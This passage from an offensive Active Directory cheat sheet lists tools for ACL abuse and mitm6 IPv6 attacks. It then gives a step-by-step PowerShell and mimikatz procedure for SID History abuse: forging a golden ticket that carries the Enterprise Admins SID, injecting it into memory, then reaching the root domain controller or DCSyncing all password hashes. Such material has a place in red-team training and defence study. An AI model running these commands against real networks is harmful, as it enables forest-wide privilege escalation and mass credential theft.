 ### Abusing ACLs

- [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

### Abusing IPv6 with mitm6

- [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)

### SID History Abuse

*WUT IS DIS?: If we manage to compromise a child domain of a forest and [SID filtering](https://www.itprotoday.com/windows-8/sid-filtering) isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the [SID History](https://www.itprotoday.com/windows-8/sid-history) field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.*

Exploitation example:

```powershell
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```

⧉ Copied!

Detailed Articles:

- [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
- [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
